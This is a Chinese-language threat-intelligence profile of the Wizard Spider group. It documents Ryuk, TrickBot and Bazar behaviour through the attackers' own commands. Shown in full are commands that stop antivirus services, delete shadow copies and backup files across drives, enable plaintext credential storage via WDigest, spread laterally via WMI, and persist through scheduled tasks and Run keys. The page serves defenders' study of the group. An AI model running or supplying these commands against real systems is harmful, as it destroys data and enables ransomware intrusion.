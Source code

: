 # Wizard Spider

## 特征

1. Ryuk勒索软件为了保持持久性，会修改注册表HKEY_CURRENT_USER\SOFTWARE\Microsoft\Windows\CurrentVersion\Run的值为Ryuk可执行路径.

该勒索软件会通过创建kill.bat批处理脚本停止或禁用服务，然后终止某些特定进程.

```bash
net stop avpsus /y  //停止卡巴斯基更新服务
net stop McAfeeDLPAgentService /y  //停止McAfee DLP代理服务
net stop mfewc /y  //停止McAfee Web控制服务
net stop BMR Boot Service /y  //停止BMR服务
net stop NetBackup BMR MTFTP Service /y  //停止NetBackup BMR引导服务
sc config SQLTELEMETRY start= disabled  //禁用SQL Server的 Telemetry服务
sc config SQLTELEMETRY$ECWDB2 start= disabled
sc config SQLWriter start= disabled  //禁用SQL Server的卷影复制服务
sc config SstpSvc start= disabled  //禁用SSTP支持服务
taskkill /IM mspub.exe /F  //终止Microsoft Office进程
taskkill /IM mydesktopqos.exe /F
//终止记录键盘和鼠标输入并连接到网络的进程
taskkill /IM mydesktopservice.exe /F  //终止Oracle MyDesktop进程
```

然后该勒索软件会通过windows.bat批处理脚本来使感染主机更难恢复源文件.

```bash
vssadmin Delete Shadows /all /quiet
//删除所有指定卷的卷影副本，并且运行时不显示消息
vssadmin resize shadowstorage /for=c: /on=c: /maxsize=401MB
//指定调整最大存储空间量的C卷，然后指定存储卷为C，最后指定存储卷影副本的最大空间量为401MB
vssadmin resize shadowstorage /for=c: /on=c: /maxsize=unbounded
//在卷C上调整卷C的卷影副本的最大空间量
vssadmin resize shadowstorage /for=d: /on=d: /maxsize=401MB
vssadmin resize shadowstorage /for=d: /on=d: /maxsize=unbounded
vssadmin resize shadowstorage /for=e: /on=e: /maxsize=401MB
vssadmin resize shadowstorage /for=e: /on=e: /maxsize=unbounded
vssadmin resize shadowstorage /for=f: /on=f: /maxsize=401MB
vssadmin resize shadowstorage /for=f: /on=f: /maxsize=unbounded
vssadmin resize shadowstorage /for=g: /on=g: /maxsize=401MB
vssadmin resize shadowstorage /for=g: /on=g: /maxsize=unbounded
vssadmin resize shadowstorage /for=h: /on=h: /maxsize=401MB
vssadmin resize shadowstorage /for=h: /on=h: /maxsize=unbounded
vssadmin Delete Shadows /all /quiet
del /s /f /q c:\*.VHD c:\*.bac c:\*.bak c:\*.wbcat c:\*.bkf c:\Backup*.* c:\backup*.* c:\*.set c:\*.win c:\*.dsk
del /s /f /q d:\*.VHD d:\*.bac d:\*.bak d:\*.wbcat d:\*.bkf d:\Backup*.* d:\backup*.* d:\*.set d:\*.win d:\*.dsk
del /s /f /q e:\*.VHD e:\*.bac e:\*.bak e:\*.wbcat e:\*.bkf e:\Backup*.* e:\backup*.* e:\*.set e:\*.win e:\*.dsk
del /s /f /q f:\*.VHD f:\*.bac f:\*.bak f:\*.wbcat f:\*.bkf f:\Backup*.* f:\backup*.* f:\*.set f:\*.win f:\*.dsk
del /s /f /q g:\*.VHD g:\*.bac g:\*.bak g:\*.wbcat g:\*.bkf g:\Backup*.* g:\backup*.* g:\*.set g:\*.win g:\*.dsk
del /s /f /q h:\*.VHD h:\*.bac h:\*.bak h:\*.wbcat h:\*.bkf h:\Backup*.* h:\backup*.* h:\*.set h:\*.win h:\*.dsk
//根据文件位置和扩展名删除文件。q为安静模式；s为所有子目录文件；f为关闭用户确认并强制删除文件功能
del %0  //删除正在执行的.bat脚本
```

2. 投递的TrickBot恶意软件会通过修改注册表HKLM\System\CurrentControlSet\Control\SecurityProviders\WDigest的UseLogonCredential值为1.将UseLogonCredential值设置为"1"可将Windows操作系统配置为将凭据以明文形式存储在内存中，然后通过使用凭据转储工具检索凭据.

3. 通过Bazar加载Ryuk勒索软件会通过WMI尝试横向执行恶意DLL文件:wmic /node:"DC.example.domain" process call create "rundll32 C:\PerfLogs\arti64.dll, StartW".在横向时还会尝试使用"powershell -nop -exec bypass -EncodedCommand Base64字符串，下载可执行文件和禁用Windows Defender.

然后该恶意软件会通过下载adfind.exe应用程序收集Active Directory信息.

```bash
AdFind.exe -f "(objectcategory=computer)"  //查询当前域中所有计算机
AdFind.exe -f "(objectcategory=group)"  //查询当前域中所有组
AdFind.exe -f "(objectcategory=organizationalUnit)"  //查询当前域中所有组对象
AdFind.exe -f "(objectcategory=person)"  //查询当前域中所有用户
AdFind.exe  -subnets -f "(objectCategory=subnet)"  //查询所有子网
AdFind.exe  -sc trustdmp  
AdFind.exe -gcb -sc trustdmp
//转储所有信任对象
```

该恶意软件的变体还会创建计划任务以保持持久性.

```bash
"C:\Windows\System32\schtasks.exe" /CREATE /SC ONSTART /TN jf0c /TR "'C:\Users\pagefilerpqy.exe'" /f
"C:\Windows\System32\schtasks.exe" /CREATE /SC ONSTART /TN jf0c /TR "'C:\Users\pagefilerpqy.exe'" /f /RL HIGHEST
"C:\Windows\System32\schtasks.exe" /CREATE /SC ONCE /ST 17:21:58 /TN 9T6ukfi6 /TR "'C:\Users\pagefilerpqy.exe'" /f
"C:\Windows\System32\schtasks.exe" /CREATE /SC ONCE /ST 17:21:58 /TN 9T6ukfi6 /TR "'C:\Users\pagefilerpqy.exe'" /f /RL HIGHEST
//设置运行密钥为9T6ukfi6
REG ADD "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V \"microsoft update\" /t REG_SZ /F /D "SCHTASKS /run /tn 9T6ukfi6"
```
